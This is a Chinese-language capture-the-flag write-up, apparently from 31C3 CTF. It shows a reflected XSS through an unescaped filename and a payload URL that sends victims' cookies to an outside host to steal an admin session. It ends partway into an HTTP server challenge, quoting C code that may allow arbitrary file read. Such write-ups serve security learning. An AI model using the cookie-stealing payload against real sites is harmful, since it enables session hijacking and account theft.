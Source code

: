 * * *

> These guys have ripped off our designs and using them in their web pages builder! We’d Haxx them, don’t worry we’ll give you decent points for it

这一题分为两步，第一步构造一个报错页面。报错页面中会显示的 filename 没有 escape。

如下构造参数

```
filename=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E.php&title=aaa&style=style1&content=aaa 
```

会形成一个反射性的 XSS

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<img src=x onerror=alert(1)>.php 
```

我们可以构造一个偷 cookie 的连接

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<svg onload=eval(document.location.hash.slice(1))>.php#document.location='http://lanantest.sinaapp.com/?'+document.cookie 
```

第二步把这个 XSS 提交到，Contact Us，就可以偷到 cookie 了，可以看到 Flag

## 0x03 HTTP

* * *

> Check out our cool webserver. It is really fast because it is implemented in C. For security we use the versatility of Ruby.
> 
> Get the source at:
> 
> http.tar.bz2 Some example sites hosted with our webserver:
> 
> http://works.90.31c3ctf.aachen.ccc.de/works.html
> 
> http://31c3ctf.90.31c3ctf.aachen.ccc.de/announcements.html

给出了一个简单的 webserver，首先看一下源代码。

run.sh 中可以看到数据包先经过，fw.rb 再进入 server_file.c 进行处理。

```
exec socat "TCP-LISTEN:80,reuseaddr=1,fork" "EXEC:./fw.rb simple ./serve_file,su=nobody,nofork" 2> >(tee -a ../www.log)

```

看到 server_file.c 中，会读取 host 目录下的 path 文件，并返回，首先想到任意文件读取。

```
if (chdir(host) == -1) {
        goto _404;
}
int fd= open(path, O_RDONLY);
if (fd == -1) {
    goto _404;
}
struct stat stat;
if (fstat(fd, &stat) == -1) {
    goto _404;
}
const char *file= mmap(NULL, stat.st_size, PROT_READ, MAP_SHARED, fd, 0);
if (file == NULL) {
    goto _404;
}
```